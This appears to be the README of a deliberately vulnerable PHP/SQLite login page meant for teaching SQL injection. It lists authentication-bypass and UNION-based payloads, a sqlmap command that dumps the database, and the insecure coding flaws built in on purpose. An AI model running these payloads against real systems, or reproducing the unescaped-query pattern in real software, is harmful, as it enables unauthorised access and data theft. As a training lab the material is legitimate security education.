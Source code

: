# TestSiteSQLinjection

> A deliberately vulnerable web application designed for teaching SQL injection techniques. This project provides a simple login page with known SQL injection vulnerabilities for educational purposes. 

⚠️ **WARNING: This is a vulnerable application designed for educational purposes only. DO NOT deploy this in any production environment.**

## Overview

This project simulates a basic login page with intentional SQL injection vulnerabilities to help students learn about:

- Basic SQL injection techniques
- SQLMap usage
- Web application security testing
- Database exploitation

## Prerequisites

- PHP 7.0 or higher
- SQLite3
- Python 3.x (for SQLMap)
- SQLMap

## Installation

1. Clone the repository:

```bash
git clone https://github.com/ctkqiang/TestSiteSQLinjection.git
cd TestSiteSQLinjection
```

2. Initialize the database:

```sql
-- The following SQL will be automatically executed on first run
CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY,
    username TEXT,
    password TEXT
);

-- Sample user data is pre-populated
-- Including admin users and regular users
```

## Running the Application

1. Start the PHP development server:

```bash
php -S 0.0.0.0:3000
```

2. Access the application:

- Open your browser and navigate to `http://localhost:3000`
- The login page will be displayed

## Testing SQL Injection

### Manual Testing

You can try these SQL injection payloads:

1. Basic authentication bypass:

   ```sql
   ' OR '1'='1
   ```

2. UNION-based injection:

   ```sql
   ' UNION SELECT username, password, id FROM users--
   ```

3. Comment-based bypass:
   ```sql
   admin'--
   ```

### Automated Testing with SQLMap

Run SQLMap against the application:

```bash
python3 sqlmap.py -u "http://localhost:3000/index.php" --data="username=admin&password=' OR 1=1--" --dbms=sqlite --dump
```

SQLMap parameters explained:

- `-u`: Target URL
- `--data`: POST data with injection point
- `--dbms`: Specify database type (SQLite)
- `--dump`: Retrieve database contents

## Success Indicators

When successfully exploited, the application will:

1. Log "hacked" to the browser console
2. Display retrieved user information
3. Show successful login messages

## Database Structure

The application uses SQLite with the following schema:

```sql
users
├── id (INTEGER PRIMARY KEY)
├── username (TEXT)
└── password (TEXT)
```

Pre-populated with test accounts including:

- Regular users (john.doe, jane.smith, etc.)
- Admin users (admin/admin123, admin/secretpass123)

## Security Notice

This application contains intentional security vulnerabilities including:

- Unescaped SQL queries
- Direct user input in SQL statements
- Plain text password storage
- No input sanitization

**DO NOT:**

- Use this code in production
- Deploy this on a public server
- Use real credentials or sensitive data

## Educational Goals

Students should learn:

1. How SQL injection vulnerabilities occur
2. Methods to identify SQL injection points
3. Using automated tools for security testing
4. Understanding database structure through exploitation
5. Importance of proper input sanitization

## Contributing

Feel free to contribute by:

- Adding new vulnerabilities for testing
- Improving documentation
- Creating additional learning resources
- Adding more test cases



